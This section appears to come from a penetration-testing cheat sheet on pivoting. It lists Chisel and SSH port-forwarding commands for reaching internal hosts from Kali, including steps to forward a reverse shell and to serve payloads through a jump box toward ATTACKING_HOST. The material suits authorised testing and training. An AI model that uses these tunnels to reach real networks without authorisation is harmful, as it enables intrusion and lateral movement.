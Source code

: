 ## 6. Pivoting and port forwarding
Pivoting and port forwarding allow you to access internal applications or hosts
### Chisel
```bash
# in Kali
./chisel server --reverse --port 9001 --socks5
```
|     |     |
| --- | --- |
| chisel client SERVER_IP:9001 R:80:127.0.0.1:80 | Listen on Kali 80, forward to localhost port 80 on client |
| chisel client SERVER_IP:9001 R:4444:ANOTHER_HOST:80 | Listen on Kali 4444, forward to ANOTHER_HOST(not the connected one) port 80 |
| chisel client SERVER_IP:9001 R:socks | Create SOCKS5 listener on 1080 on Kali, proxy through client, add `socks5 127.0.0.1 1080` to `/etc/proxychains4.conf` |

### SSH port forwarding 
#### 1. Local port forward, doing a local port forward proxy with jump host local port and target port. So that the exploit can go through from jump box to target machine and port
```bash
#execute on KALI
ssh -N Administrator@${JUMP} -p 22 -L 2222:${TARGET}:22
```
#### 2. forward rev shell
```bash
#Execute on jump box
ssh -N user@${ATTACKING_HOST} -p 22 -R 0.0.0.0:443:127.0.0.1:443
```
At this stage you can start a listen on port 443 to catch the rev shell
But remember all LHOST is now the jump box

#### 3. If you need a web server to serve payload
```bash
#Execute on jump box
ssh -N user@${ATTACKING_HOST} -p 22 -L 0.0.0.0:8080:127.0.0.1:8080
```

#### 4. map one remote host port to jump box
```bash
#Executed on jump box
ssh -N -L 0.0.0.0:4455:REMOTE_HOST:445 USER@REMOTE_HOST
```

#### 5. access remote host port via jump box dynamically
```bash
#Execute on jump box
ssh -Nf -D 0.0.0.0:proxy_port USER@REMOTE_HOST
```

#### 6. map one remote port from remote host to kali box via jumpbox(remote port forward)
```bash
#executed on jump box
ssh -Nf -R 127.0.0.1:ANY_UNUSED_PORT:REMOTE_TARGET:TARGET_PORT kali@KALI_IP
```
